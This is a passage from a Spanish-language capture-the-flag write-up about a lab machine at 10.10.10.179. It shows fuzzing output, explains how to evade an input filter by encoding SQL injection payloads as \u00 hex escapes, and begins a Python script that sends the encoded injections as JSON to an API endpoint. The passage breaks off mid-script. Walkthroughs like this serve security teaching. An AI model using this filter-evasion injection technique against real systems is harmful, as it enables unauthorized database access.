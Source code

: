 ```bash
000000032:   403        29 L     92 W       1233 Ch     ">"                                                                                                                    

Total time: 32.39251
Processed Requests: 32
Filtered Requests: 25
Requests/sec.: 0.987882
```

Al finalizar wfuzz nos muestra que la `\` nos reporta un codigo de estado `500 Internal Server Error`, que curiosamente usa `sqlmap` con el nombre de `tamper` para ofuzcar sus payloads como en el siguente ejemplo.

```bash
 >>> tamper('SELECT FIELD FROM TABLE')
    '\\\\u0053\\\\u0045\\\\u004C\\\\u0045\\\\u0043\\\\u0054\\\\u0020\\\\u0046\\\\u0049\\\\u0045\\\\u004C\\\\u0044\\\\u0020\\\\u0046\\\\u0052\\\\u004F\\\\u004D\\\\u0020\\\\u0054\\\\u0041\\\\u0042\\\\u004C\\\\u0045'
```

A efectos practicos al mandar la peticion debemos usar ```\\u00``` seguido de cada caracter en hexadecimal no es necesario usar tres  `\` con uno basta.


Para no realizar la peticion una a una o usar sqlmap, vamos a realizarlo manualmente creandonos un script en `python3`:

```python
#!/usr/bin/python3

from pwn import *
import requests, time, json, signal

def def_handler(sig, frame):
    print("\n[!] Saliendo...!\n")
    sys.exit(1)

#ctrl_c -> al presionar nos ejecuta la funcion def_handler
signal.signal(signal.SIGINT, def_handler)

#global_variables
main_url = "http://10.10.10.179/api/getColleagues"


#recibimos la data como input y la tratamos 
def recivesql(sqlinyection):
    sqlmodified = ""
    for character in sqlinyection:
        sqlmodified += "\\u00" + hex(ord(character))[2:]

    return sqlmodified

#realizamos la peticion enviando la data tratada y la representamos en formato json

def sendsql(sqlmodified):

    headers = {
        'Content-Type': 'application/json;charset=utf-8'
    }

    data_post = '{"name": "%s"}' % sqlmodified
    
    
    r = requests.post(main_url, headers=headers, data=data_post)

    data_json = json.loads(r.text)
```